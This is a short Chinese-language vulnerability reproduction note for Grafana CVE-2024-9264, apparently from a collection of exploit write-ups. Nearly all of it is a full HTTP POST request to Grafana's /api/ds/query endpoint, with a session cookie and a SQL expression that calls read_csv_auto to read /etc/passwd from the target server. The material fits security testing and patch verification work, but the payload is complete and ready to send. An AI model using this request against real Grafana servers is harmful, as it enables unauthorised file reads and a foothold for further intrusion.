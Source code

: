 ![](images/Grafana%20SQL%20表达式远程代码执行漏洞%20CVE-2024-9264/image-20241105153155139.png)

## 漏洞复现

发送如下 POST 请求，将数据源类型修改为 `sql`。利用 `read_csv_auto（）` 从目标系统读取任意文件，例如，`/etc/passwd`：

```
POST /api/ds/query?ds_type=__expr__&expression=true&requestId=Q100 HTTP/1.1
Host: your-ip:3000
Content-Type: application/json
Cookie: grafana_session=23e897e4377fbd8c0386eb7d7d6c4664; grafana_session_expiry=1730791660
Content-Length: 368

{
  "from": "1696154400000",
  "to": "1696345200000",
  "queries": [
    {
      "datasource": {
        "name": "Expression",
        "type": "__expr__",
        "uid": "__expr__"
      },
      "expression": "SELECT * FROM read_csv_auto('/etc/passwd');",
      "hide": false,
      "refId": "B",
      "type": "sql",
      "window": ""
    }
  ]
}
```
